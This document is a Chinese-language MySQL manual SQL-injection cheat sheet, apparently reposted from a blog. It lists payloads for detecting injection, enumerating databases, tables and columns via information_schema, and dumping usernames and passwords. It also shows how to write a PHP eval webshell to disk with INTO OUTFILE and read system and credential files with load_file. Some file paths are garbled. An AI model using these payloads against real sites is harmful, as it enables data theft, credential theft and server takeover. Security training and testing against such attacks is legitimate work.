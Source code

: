 ```yaml
---
title: MySQL 手工注入常用语句
id: csdn59480461
---
```


判断是否存在SQL注入

```
'
and 1=1
and 1=2
```

暴字段长度

```
Order by 数字
```

匹配字段

```
and 1=1 union select 1,2,..,n
```

暴字段位置

```
and 1=2 union select 1,2,..,n
```

利用内置函数暴数据库信息

```
version() database() user()
```

不用猜解可用字段暴数据库信息(有些网站不适用):

```
and 1=2 union all select version() 
and 1=2 union all select database() 
and 1=2 union all select user() 
```

操作系统信息：

```
and 1=2 union all select @@global.version_compile_os from mysql.user 
```

数据库权限：

```
and ord(mid(user(),1,1))=114  返回正常说明为root
```

暴库 (mysql>5.0)

Mysql 5 以上有内置库 `information_schema`，存储着mysql的所有数据库和表结构信息

```
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1
```

猜表

```
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—
```

猜字段

```
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1
```

暴密码

```
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1
```

高级用法（一个可用字段显示两个数据内容）：

```
Union select 1,2,3,concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1
```

直接写马(Root权限)

条件：

1、知道站点物理路径

2、有足够大的权限（可以用s`elect …. from mysql.user`测试）

3、`magic_quotes_gpc()=OFF`

```
select ‘<?php eval_r($_POST[cmd])?>' into outfile ‘物理路径'
and 1=2 union all select 一句话HEX值 into outfile '路径'
```

`load_file()` 常用路径：

1.  `replace(load_file(0×2F6574632F706173737764),0×3c,0×20)`
2.  `replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))`
    上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 `<` 替换成”空格” 返回的是网页.而无法查看到代码.
3.  `load_file(char(47))` 可以列出FreeBSD,Sunos系统根目录
4.  `/etc tpd/conf tpd.conf`或`/usr/local/apche/conf tpd.conf` 查看linux APACHE虚拟主机配置文件
5.  `c:\Program Files\Apache Group\Apache\conf \httpd.conf` 或`C:\apache\conf \httpd.conf`查看WINDOWS系统apache文件
6.  `c:/Resin-3.0.14/conf/resin.conf` 查看jsp开发的网站 resin文件配置信息.
7.  `c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf` 查看linux系统配置的JSP虚拟主机
8.  `d:\APACHE\Apache2\conf\httpd.conf`
9.  `C:\Program Files\mysql\my.ini`
10.  `../themes/darkblue_orange/layout.inc.php phpmyadmin` 爆路径
11.  `c:\windows\system32\inetsrv\MetaBase.xml` 查看IIS的虚拟主机配置文件
12.  `/usr/local/resin-3.0.22/conf/resin.conf` 针对3.0.22的RESIN配置文件查看
13.  `/usr/local/resin-pro-3.0.22/conf/resin.conf` 同上
14.  `/usr/local/app/apache2/conf/extra tpd-vhosts.conf` APASHE虚拟主机查看
15.  `/etc/sysconfig/iptables` 本机防火墙策略
16.  `usr/local/app/php5 b/php.ini` PHP 的相当设置
17.  `/etc/my.cnf` MYSQL的配置文件
18.  `/etc/redhat-release` 红帽子的系统版本
19.  `C:\mysql\data\mysql\user.MYD` 存在MYSQL系统中的用户密码
20.  `/etc/sysconfig/network-scripts/ifcfg-eth0` 查看IP.
21.  `/usr/local/app/php5 b/php.ini` //PHP相关设置
22.  `/usr/local/app/apache2/conf/extra tpd-vhosts.conf` //虚拟网站设置
23.  `C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`
24.  `c:\windows\my.ini`
25.  `c:\boot.ini`

网站常用配置文件

```
config.inc.php、config.php。
```

`load_file()`时要用`replace(load_file(HEX)，char(60),char(32))`

注：

```
Char(60)表示 <
Char（32）表示 空格
```

手工注射时出现的问题：

当注射后页面显示：

```
Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'
```

如：

```
/instrument.php?ID=13 and 1=2 union select 1,load_file(0x433A5C626F6F742E696E69),3,4,user()
```

这是由于前后编码不一致造成的，

解决方法：在参数前加上 `unhex(hex(参数))`就可以了。上面的URL就可以改为：

```
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
```